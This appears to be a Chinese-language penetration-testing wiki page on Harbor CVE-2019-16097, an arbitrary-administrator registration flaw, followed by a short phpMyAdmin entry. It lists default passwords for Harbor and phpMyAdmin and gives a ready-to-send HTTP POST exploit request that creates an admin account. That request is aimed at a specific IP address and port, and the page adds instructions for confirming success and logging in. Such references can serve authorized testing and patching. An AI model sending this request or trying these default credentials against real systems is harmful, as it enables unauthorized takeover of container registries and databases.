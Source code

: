 ### Harbor

Harbor是一个用于存储和分发Docker镜像的企业级Registry服务器。Harbor 1.7.0版本至1.8.2版本中的core/api/user.go文件存在安全漏洞。攻击者通过在请求中添加关键参数，即可利用该漏洞创建管理员账户，从而接管Harbor镜像仓库。

默认口令：admin/Harbor12345

#### CVE-2019-16097 任意管理员注册漏洞

* 影响版本：Harbor 1.7.0版本至1.8.2版本
* 漏洞详情：
  * Harbor 1.7.0版本至1.8.2版本中的core/api/user.go文件存在安全漏洞。攻击者通过在请求中添加关键参数，即可利用该漏洞创建管理员账户，从而接管Harbor镜像仓库。
*   漏洞利用

    ```
    POST /api/users HTTP/1.1
    Host: 220.163.6.46:7777

    Content-Type: application/x-www-form-urlencoded
    Content-Length: 122

    {"username": "testpoc", "has_admin_role": true, "password": "TestPoc!", "email": "testpoc@example.com", "realname": "poc"}
    ```

    向/api/user 接口发送创建用户的请求, 状态码返回201即创建成功,使用创建的账户成功登录后台
* 参考链接
  * https://www.yuque.com/peiqiwiki/peiqi-poc-wiki/wdvglc

### phpmyadmin

phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具

phpMyAdmin的登录页面。默认口令：`root:root`

![image](img/phpmyadmin1.png)
